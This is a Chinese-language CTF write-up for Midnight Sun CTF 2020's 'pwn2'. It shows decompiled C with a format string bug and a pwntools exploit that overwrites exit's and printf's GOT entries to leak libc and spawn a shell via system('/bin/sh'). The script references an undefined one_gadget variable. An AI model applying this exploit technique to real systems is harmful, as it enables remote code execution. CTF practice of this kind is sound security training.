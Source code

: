 
## pwn2
- 题目描述：
  
    > An homage to pwny.racing, we present... speedrun pwn challenges.
    > These bite-sized challenges should serve as a nice warm-up for your pwning skills.
- 题目附件：[pwn2](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn2/pwn2)
- 考察点：格式化字符串
- 难度：一般
- 初始分值：100
- 最终分值：80
- 完成人数：108

### 程序分析
程序中存在格式化字符串漏洞，`printf`随后调用`exit(0)`，由于没开PIE，可以改`exit`的GOT表，返回`main`，重复利用格式化字符串漏洞。

```c
void main(void){
  int iVar1;
  undefined4 *puVar2;
  int in_GS_OFFSET;
  undefined4 buf;
  undefined4 local_50 [15];
  undefined4 local_14;
  undefined *puStack16;
  
  puStack16 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  buf = 0;
  iVar1 = 0xf;
  puVar2 = local_50;
  while (iVar1 != 0) {
    iVar1 = iVar1 + -1;
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  alarm(0x3c);
  banner();
  printf("input: ");
  fgets((char *)&buf,0x40,stdin);
  printf((char *)&buf);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

### 解题思路
第一次格式化字符串改`exit`的GOT为`main`同时泄漏`libc`

第二次改`printf`的GOT为`system`，执行`system('/bin/sh')`

```python
main = 0x080485eb

# fmt1 exit->main, leak
fmt = fmtstr_payload(7,{elf.got['exit']:main},write_size='byte')
fmt+= 'AAAA%27$p'
sla('input: ',fmt)
ru('AAAA')
# leak
libc_start_main_241 = eval(rc(10))
info_addr('libc_start_main_241',libc_start_main_241)
libcbase = libc_start_main_241-241-libc.sym['__libc_start_main']
info_addr('libcbase',libcbase)
system = libcbase+libc.sym['system']
info_addr('one_gadget',one_gadget)
# fmt2 printf->system
fmt2 = fmtstr_payload(7,{elf.got['printf']:system},write_size='short')
# debug()
sla('input: ',fmt2)
sl('/bin/sh\0')

p.interactive()
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/MidnightsunCTF2020/pwn/pwn2) 

